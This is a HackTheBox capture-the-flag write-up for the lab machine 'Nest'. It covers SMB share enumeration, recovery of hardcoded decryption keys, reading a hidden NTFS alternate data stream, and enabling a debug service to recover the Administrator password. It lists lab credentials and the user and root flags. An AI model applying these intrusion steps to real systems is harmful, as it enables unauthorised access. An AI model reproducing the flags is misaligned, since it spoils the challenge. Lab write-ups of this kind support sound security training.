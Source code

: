 # Nest

Author: Ewaël

**Nest** is an easy HackTheBox box by VbScrub.

`nmap -sC -sV -oN nmap 10.10.10.178 -v -A` shows only port 445 is open. Let's see if I can see some files anonymously.

```
$ smbclient -L //10.10.10.178

Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Data            Disk
	IPC$            IPC       Remote IPC
	Secure$         Disk
	Users           Disk
SMB1 disabled -- no workgroup available
```

I can't access `ADMIN$` and `C$`. `Users` contains directories that I can't list but `Data` has some interesting files. I find `Welcome Email.txt` in `\Shared\Templates\HR` that I transfer on host using `get [file]` but `mget *` works too.

```
Username: TempUser
Password: welcome2019
```

I can now log as `TempUser` in `Users` with `smbclient //10.10.10.178/Users -U TempUser` but there's nothing interesting in my directory. Going back to `Data` I see that I can now access `Configs`. I find

```xml
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
```

in `RU_config.xml` but I can't decrypt the password yet. In *Notepad++* config file I find a nice path: `\\HTB-NEST\Secure$\IT\Carl\Temp.txt` that I can go to even if `IT` is not listable as `TempUser`. Once in `Carl` directory I start checking every files and I finally get something interesting in `\IT\Carl\VB Projects\WIP\RU\RUScanner\Utils.vb`:

```VB.NET
...
Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
...
```

I search for `N3st22` encryption and I find a site with this exact function [https://dotnetfiddle.net/bjoBP6](https://dotnetfiddle.net/bjoBP6) that I modify with the password found earlier:

```VB.NET
...
Console.WriteLine("Decrypted: " + DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="))
...
```

It returns me `C.Smith`'s password `xRxRxPANCAK3SxRxRx` that I use to get my user flag in `Users`:

`cf71b25404be5d84fd827e05f426e987`

Moving around in `C.Smith` dir I find an executable in `\C.Smith\HQK Reporting\AD Integration Module` named `HqkLdap.exe`. After trying some reverse in Ghidra I decide to execute it on Windows and to reverse it using dotPeek. Running it does not work because a config file is missing but reversing it shows me a new encrypting function:

```VB.NET
...
return string.IsNullOrEmpty(EncryptedString) ? string.Empty : CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
...
```

I find it there too [https://dotnetfiddle.net/1ca3i6](https://dotnetfiddle.net/1ca3i6) and I start searching for the encrypted password. Fun fact: the encrypted password is already the one on the site and so is the admin password but I don't know it yet.

After loosing some time trying to get an encrypted password in the binary, I decide to check if I did not miss anything in the `C.Smith` directory. I find this `Debug Mode Password.txt` file in `\C.Smith\HQK Reporting` but it's empty, which is annoying because it really looks like what I'm searching for.

Some googling later I finally find `allinfo` command which shows me the other streams on a NTFS partition.

```
\C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

I use `get "Debug Mode Password.txt":password` to transfer the right one and I have now the password for the debug mode. I have no idea what it means so I start searching where this password could be useful. In the `HKQ Reporting` configuration file there is a mention of the 4386 port. `nc 10.10.10.178 4386` does not seem to work but `telnet 10.10.10.178 4386` does.

```
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```

Let's use the password I just got.

```
>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```

I use `setdir ..` then `list` to list the files. In `LDAP` dir I find the `Ldap.conf` that I print with `showquery`:

```
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

That's the password I was searching for. I decrypt it with the online function I found in the binary and I get the decrypted password: `XtH4nkS4Pl4y1nGX`

In `Users` there is a link to `c$` in the `Administrator` dir, and I find the root password in `c$` with the decrypted password:

`6594c2eb084bc0f08a42f0b94b878c41`
